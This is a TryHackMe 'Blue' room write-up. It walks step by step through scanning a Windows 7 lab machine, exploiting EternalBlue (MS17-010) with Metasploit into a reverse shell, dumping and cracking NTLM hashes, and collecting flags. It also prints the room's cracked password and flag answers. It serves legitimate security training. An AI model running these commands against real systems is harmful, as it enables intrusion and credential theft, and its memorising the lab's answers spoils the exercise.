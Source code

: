 # TryHackMe - Blue Room Write-Up

**Category:** Easy
**Platform:** Windows
**Skills:** SMB Enumeration, Exploitation (MS17-010), Privilege Escalation

---

## Objective

Exploit the EternalBlue vulnerability on a Windows 7 machine, gain remote access, escalate privileges, and capture flags.

---

## 1. Enumeration 🔎

### Nmap Scan

```bash
nmap -sC -sV -T4 -oN scan.txt <IP>
```

### Key Findings:

* Port 445 (SMB) open
* Windows 7 Professional SP1
* Likely vulnerable to **MS17-010 (EternalBlue)**

---

## 2. Exploitation 🎯

### Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set LHOST <your-ip>
set LPORT 4444
exploit
```

🎉 If successful, we get a shell!

---

## 3. Upgrade to Meterpreter 💼

```bash
use post/multi/manage/shell_to_meterpreter
set SESSION <id>
run
```

Check current user:

```bash
getuid
```

If already SYSTEM, no need for further escalation.

---

## 4. Dumping Hashes 🔑

```bash
hashdump
```

Sample:

```
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Crack with John:

```bash
john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password cracked: `alqfna22`

---

## 5. Flag Collection 🚩

### Flag 1 – Root directory

```bash
C:\flag1.txt
```

📍 `flag{access_the_root}`

### Flag 2 – SAM Backup (optional)

File sometimes auto-deletes. Retry VM if missing.
📍 `flag{passwords_were_here}` (if exists)

### Flag 3 – Jon's Documents

```bash
C:\Users\Jon\Documents\flag3.txt
```

📍 `flag{admin_documents_can_be_valuable}`

---

## Summary 🧩

| Step                 | Status |
| -------------------- | ------ |
| SMB Enumeration      | ✅      |
| EternalBlue Exploit  | ✅      |
| Privilege Escalation | ✅      |
| Hashdump & Cracking  | ✅      |
| Flag Collection      | ✅      |

---

## Lessons Learned 💡

* SMB enumeration is crucial on Windows machines
* EternalBlue remains a dangerous legacy vulnerability
* Privilege escalation and hash cracking strengthen post-exploitation
* File structure knowledge helps find hidden flags

---

📘 *Thanks to TryHackMe for the amazing learning platform!*

---
